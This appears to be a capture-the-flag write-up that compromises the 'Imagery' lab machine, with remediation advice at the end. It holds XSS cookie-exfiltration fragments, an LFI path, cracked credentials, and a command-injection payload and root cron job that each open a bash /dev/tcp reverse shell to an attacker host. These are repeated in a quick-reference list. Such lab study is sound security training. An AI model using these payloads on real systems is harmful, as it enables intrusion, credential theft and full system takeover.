



# Imagery

---

**Target:** 10.10.11.88 (Imagery)

**Date:** 2025-10-03

---

## Summary

This document describes a full exploitation chain against the Imagery box. The attack path is:

1. Port scan (Nmap) — find open services (SSH, HTTP on 8000).
2. Register a normal user on the web application and use the bug report feature to inject an XSS payload that exfiltrates cookies when an admin views the report.
3. Use the stolen admin cookie to download an administrative log file, which reveals a Local File Inclusion (LFI) vector to read `db.json`.
4. Extract password hashes from `db.json`, crack them (hashcat / online cracking), obtain credentials for `testuser` and `mark`.
5. Authenticate as `testuser`, find a command injection in an ImageMagick crop operation, and obtain a reverse shell.
6. Enumerate filesystem, find encrypted backup `web_20250806_120723.zip.aes`, convert to a hash, crack the AES password, decrypt, and recover further credentials.
7. Use `mark`'s credentials and `sudo -l` to discover NOPASSWD capability for `/usr/local/bin/charcol`.
8. Reset Charcol application password (no password mode), open an interactive Charcol shell, add a malicious cron job that runs as root, and obtain root.

---

## Recon (Nmap)

Command run:

```bash
sudo nmap -sS -p- --min-rate=1000 -T4 -n -Pn 10.10.11.88
```

Relevant output (trimmed):

```
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
```

Notes: scan ran ~449s, host is up. Large number of filtered/closed ports. HTTP on port 8000 is the primary attack surface.

---

## Initial web interaction



1. Registered a normal user account on the website (used to interact with UI features).



1. The web app exposes a **Report Bug** feature; submitted bug reports are visible to admins and the app responds with `"Bug report submitted. Admin review in progress"`.

**Impact:** If an admin views a report containing a JavaScript payload, that script will execute in the admin's browser and can exfiltrate admin cookies (classic stored/reflected XSS depending on implementation).

**PoC payload (example):**

```html
/?cookie='+document.cookie">
```

(Replace `IP` with your listener box.)

After an admin opens the report, the admin cookie can be captured by the attacker and reused to impersonate the admin session.

```bash
.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-...............-pb2RqE50Dur1L9XiRY0
```

---

## Using stolen cookie to access admin function

With the admin cookie, I authenticated as the admin session and used the administrative features. One available action allowed downloading an application/system log. Intercepting that download revealed an LFI opportunity (the download mechanism returned arbitrary files when a specific path was provided).



### LFI

The application is a Python Flask app — in `app.py` it sets `DATA_STORE_PATH = 'db.json'`, `UPLOAD_FOLDER = 'uploads'`, and `SYSTEM_LOG_FOLDER = 'system_logs'`. From those configuration values we can infer the expected datastore filename and likely locations. Using the log-download LFI, I was able to read `../../../../../../../../home/web/web/db.json`, which contained user records and hashed passwords used to progress the attack

```
/myapp/
├── app.py
├── app/
│   ├── __init__.py
│   ├── routes/
│   │   └── main.py
│   ├── models/
│   │   └── user.py
│   ├── services/
│   │   └── user_service.py
│   ├── templates/
│   ├── static/
│   └── extensions.py
├── config.py
├── run.py
├── requirements.txt
└── tests/
```

I successfully retrieved `../../../../../../../../home/web/web/db.json` via the log download feature and downloaded the file contents.

Excerpt (sanitized):

```json
{
  "users": [
    {
      "username": "admin@imagery.htb",
      "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
      "isAdmin": true
    },
    {
      "username": "testuser@imagery.htb",
      "password": "2c65c8d7bfbca32a3ed42596192384f6",
      "isAdmin": false
    }
  ]
}

```

---

## Cracking password

I used hashcat (or an online service such as CrackStation) to crack the password hashes found in `db.json`.

Example command (hashcat):

```bash
hashcat -m 900 -a 0 <hashfile> /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

Result: `testuser` password cracked to `iambatman`.

Logged in as `testuser@imagery.htb` to continue web enumeration.

---

## Command injection in image cropping

While inspecting the upload/crop functionality (viewing page source / intercepting requests), I found that the backend builds an ImageMagick `convert` command by concatenating unvalidated user input into a shell command. Example code pattern observed:

```python
command = f"{IMAGEMAGICK_CONVERT_PATH} {original_filepath} -crop {width}x{height}+{x}+{y} {output_filepath}"
subprocess.run(command, capture_output=True, text=True, shell=True)
```

**Vulnerability:** the `x` (and/or `y`, `width`, `height`) parameter is not sanitized and is concatenated into a shell command passed to `subprocess.run(..., shell=True)` — this allows command injection.

**Exploit approach:** intercept the crop request and set a parameter to inject a shell payload. Example `x` value used:

![[img4.png|image.png]]

```bash
"x":";setsid /bin/bash -c '/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'; 
```

```bash
rlwrap nc -lvnp <PORT>
```

Start a listener on your machine (example using `rlwrap nc -lvnp <PORT>`) and trigger the crop; you will receive a reverse shell as the web application user.

---

## Post-exploitation and file discovery

Once on the system via the reverse shell, I enumerated files and discovered a backup directory:

Inside `backup` there was an encrypted backup archive: `web_20250806_120723.zip.aes`.

### Cracking the AES-encrypted backup

I converted the `.aes` file into a hash format consumable by hashcat using [`aescrypt2hashcat.pl`](https://github.com/hashcat/hashcat/blob/master/tools/aescrypt2hashcat.pl) (available from Hashcat's repository):

```bash
perl aescrypt2hashcat.pl web_20250806_120723.zip.aes > aes_hash.txt
hashcat -m <mode> aes_hash.txt rockyou.txt
```

The AES password was cracked (example result: `bestfriends`). I then decrypted the archive using `aescrypt`:

```
aescrypt -d web_20250806_120723.zip.aes
unzip web_20250806_120723.zip
```

Inside the decrypted archive I found an additional copy of `db.json` with further users, including `mark`:

```json
{
          "username": "mark@imagery.htb",
            "password": "01c3d2e5bdaf6134cec0a367cf53e535",
            "displayId": "868facaf",
            "isAdmin": false,
            "failed_login_attempts": 0,
            "locked_until": null,
            "isTestuser": false
}
```

Cracked hash: `mark:supersmash`.

---

## Privilege escalation via `charcol`

As `mark`, I checked `sudo` privileges:

```bash
sudo -l
```

Output showed that `mark` can run `/usr/local/bin/charcol` as ANY user without a password:

```bash
(ALL) NOPASSWD: /usr/local/bin/charcol
```

`charcol` is a CLI tool to create encrypted backup zip files. Running `charcol -h` reveals a `shell` command and an `auto add` subcommand for adding automated jobs (cron entries).

Because the application supports a _no-app-password_ mode (and the system allows resetting the Charcol application password after verifying the system password), I reset Charcol to no-password mode and started an interactive Charcol shell.

Command used to reset the Charcol config (requires system password):

```bash
sudo /usr/local/bin/charcol -R
```

Then launched the interactive Charcol shell:

```bash
charcol shell
```

Inside the Charcol shell, the `auto add` command can add cron jobs that will run as root. The tool also warns that it does **not** validate the safety of the provided `--command` argument.

**Malicious job added (example):**

```bash
auto add --schedule "* * * * *" --command "bash -c 'bash -i >& /dev/tcp/<ATTACK_IP>/<ATTACK_PORT> 0>&1'" --name "bash" --log-output bash.sh
```

```bash
rlwrap nc -lvnp <PORT>
```

Start a listener on your attack machine and within a minute the job executes and a root shell connects back — full system compromise.

---

## Impact

Root on the machine. Full read/write access to all files and services.

---

## Recommendations / Remediation

1. **Fix XSS**: Properly sanitize/encode user-supplied input displayed in admin views. Use a secure templating engine and Content Security Policy (CSP).
2. **Avoid shell=True**: Do not construct shell commands by concatenating user input. Use `subprocess.run()` with a list of arguments and avoid `shell=True`. Sanitize numeric inputs strictly.
3. **Restrict file download endpoints**: Validate and restrict file paths served by admin download endpoints. Use allowlists and do not expose arbitrary file reads.
4. **Encrypt secrets and use salted hashes**: Store passwords with a modern password hashing algorithm (bcrypt/argon2) and per-user salts. Avoid storing recoverable hashes in a world-readable file.
5. **Harden cron/backup tooling**: Ensure privileged tools (like charcol) do not expose arbitrary command execution or cron insertion features to untrusted users. Validate and sanitize commands, require application-level authentication for automation features, and remove NOPASSWD sudo where not required.
6. **Rotate credentials**: After remediation, rotate all affected credentials.

---

## Artifacts and commands (quick reference)

- Nmap:

```bash
sudo nmap -sS -p- --min-rate=1000 -T4 -n -Pn 10.10.11.88
```

- XSS payload (example):

```html
">
```

- Hashcat (example):

```bash
hashcat -m 900 -a 0 hashes.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

- Reverse shell injection via crop param (example):

```bash
"; setsid /bin/bash -c '/bin/bash -i >& /dev/tcp/<ATTACK_IP>/<ATTACK_PORT> 0>&1';
```

- Reset Charcol:

```bash
sudo /usr/local/bin/charcol -R
charcol shell
# inside charcol shell
auto add --schedule "* * * * *" --command "bash -c 'bash -i >& /dev/tcp/<ATTACK_IP>/<ATTACK_PORT> 0>&1'" --name "bash" --log-output bash.sh
```

---

## Notes

- Replace all placeholder IPs/ports with your attacker's listening host/port when reproducing.
- Keep all evidence files (logs, downloaded dumps, cracked hashes) for reporting.
